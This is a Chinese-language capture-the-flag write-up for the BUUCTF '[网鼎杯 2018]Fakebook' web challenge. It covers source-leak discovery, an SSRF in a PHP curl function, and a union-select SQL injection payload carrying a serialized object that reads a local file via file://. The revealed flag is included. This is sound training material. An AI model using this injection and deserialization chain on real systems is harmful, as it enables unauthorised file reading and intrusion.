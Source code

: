 ```yaml
---
title: buuoj刷题记录5
date: 2019-12-30 16:19:44
tags:
 - 网鼎杯2018
 - buuctf
 - web
categories: 
 - 刷题记录
---
```


## [网鼎杯 2018]Fakebook

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

<!--more-->

### 0x01 分析

访问`robots.txt`，给了一个提示

```
User-agent: *
Disallow: /user.php.bak
```

拿到`user.php`的源码

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();   //初始化链接

        curl_setopt($ch, CURLOPT_URL, $url);     //设置CURLOPT_URL
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);   //将curl_exec()获取的信息以文件流的形式返回,而不是直接输出
        $output = curl_exec($ch);      /执行CURL会话;此处存在ssrf
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);  //获取博客地址
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);  //博客地址有过滤
    }

}
```

访问`flag.php`，显示返回是200。那么应该是要将`./flag.php`写入博客地址，让程序加载。

在加入一个用户时的`username`存在post注入，加入完成，进入到`view.php`发现也存在注入

### 0x02 开始操作

使用sqlmap跑了一遍post注入，发现数据库中存的是序列化后结果，应该存在序列化漏洞。

![](../pic/4.png)
```
payload=view.php?no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3{s:4:"name";s:4:"and";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

执行结果

![](../pic/5.png)

查看源码

```html
<!doctype html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>User</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>
</head>
<body>
<div class="container">
    <table class="table">
        <tr>
            <th>
                username
            </th>
            <th>
                age
            </th>
            <th>
                blog
            </th>
        </tr>
        <tr>
            <td>
                2            </td>
            <td>
                12            </td>
            <td>
                file:///var/www/html/flag.php            </td>
        </tr>
    </table>

    <hr>
    <br><br><br><br><br>
    <p>the contents of his/her blog</p>
    <hr>
    <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s4MzUwNjViNi1iNjBkLTQ5ZGEtYTkyYi1kZDgwZDM4MDMyZGN9IjsNCmV4aXQoMCk7DQo='>
</div>
</body>
</html>
```

点击即可看见flag

```php
<?php

$flag = "flag{835065b6-b60d-49da-a92b-dd80d38032dc}";
exit(0);

```

